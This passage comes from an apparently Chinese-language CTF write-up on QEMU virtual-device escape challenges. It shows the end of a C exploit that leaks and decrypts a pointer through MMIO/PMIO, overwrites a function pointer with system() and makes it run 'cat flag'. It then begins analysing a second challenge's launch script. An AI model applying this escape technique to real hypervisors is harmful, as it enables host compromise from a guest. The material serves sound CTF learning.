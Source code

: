 ```
        high += (low*16) ^ (low+sum) ^ (low>>5);
    }
    return (uint64_t)high * 0x100000000 + low;
}
 
int main()
{
    printf("begin!!!!!\n");
    setup_mmio();
    setup_pmio();
    pmio_write(8,0x100); //opaque->seek=0x100
    pmio_write(4,0); //key[0-3]=0
    //0x103
    uint64_t rand_r = mmio_read(24); //decode
    printf("region rand_r:0x%lx\n",rand_r);
    uint64_t randr = de(rand_r/0x100000000,rand_r%0x100000000);
    printf("encode randr:0x%lx\n",randr);
    uint64_t system = randr + 0xa560;
    printf("system:0x%lx\n", system);
    uint64_t encode_system = en(system / 0x100000000, system % 0x100000000);
    printf("encode system:0x%lx\n", encode_system);
 
    uint32_t low_sys = encode_system%0x100000000;
    uint32_t high_sys = encode_system/0x100000000;
    mmio_write(24,low_sys); //只能4字节4字节的写入
    sleep(1);
    mmio_write(24,high_sys);
 
    pmio_write(8,0);
    mmio_write(0,0x67616c66); //blocks: flag
    pmio_write(0x1c,0x20746163); //r_seed: cat
 
    return 0;
} 
```

3.2019 数字经济众测 qemu
------------------

### 1. 题目分析

首先查看 launch.sh 脚本

```
#! /bin/zsh
./qemu-system-x86_64 \
-initrd ./initramfs.cpio \
-kernel ./vmlinuz-4.8.0-52-generic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \
-monitor /dev/null \
-m 64M --nographic \
-L pc-bios \
-device rfid,id=vda \

```
